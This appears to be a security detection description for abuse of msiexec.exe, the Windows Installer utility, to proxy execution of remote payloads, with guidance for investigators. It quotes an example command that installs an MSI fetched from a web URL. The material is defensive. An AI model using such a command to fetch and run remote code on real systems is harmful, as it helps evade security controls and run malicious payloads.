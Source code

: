 # Description
Msiexec is the command-line utility for the Windows Installer. Adversaries may abuse msiexec.exe to proxy execution of malicious payloads from remote locations.
# Attacker's Goals
Evading security controls and executing arbitrary files from the web.
# Investigative Actions
Monitor the command-line arguments of msiexec.exe, For example the command line - 'msiexec /i http://some_domain.com/www/executable.msi' can be legitimate or malicious. Validate the following criteria:
Is the URL that is encoded in the command line trusted.
Is executed DLL or MSI file known as legitimate.
Is the initiating process legitimate and the user running it knows of its use. Note - the MSI executable can run from other LAN locations, the alert will raise on the WAN connection.
